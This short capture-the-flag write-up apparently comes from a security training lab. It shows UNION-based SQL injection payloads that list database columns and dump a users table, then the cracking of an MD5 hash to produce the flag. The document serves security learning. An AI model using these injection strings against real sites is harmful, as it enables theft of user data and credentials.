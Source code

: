 ### SQL injection on member page

This injection prints all the columns of all tables (without the tables):

`1=1 UNION SELECT NULL, column_name FROM information_schema.columns`

So, we could see all the columns of the users table -> surname, first_name, commentaire, countersign planet, town...

With this one, it prints the value of the given fields : 

`ID: 1=1 UNION SELECT first_name, countersign FROM users`

So we tried with every fields of the users tables and we found hints to access to the flag

```
ID: 1=1 UNION SELECT commentaire , last_name FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : GetThe
```

the countersign value is 5ff9d0165b4f92b14994e5c685cdce28

Here we go : 5ff9d0165b4f92b14994e5c685cdce28 >> MD5 DCRYPT >> FortyTwo >> lower all char >> fortytwo >> encrypt sh256 = flag
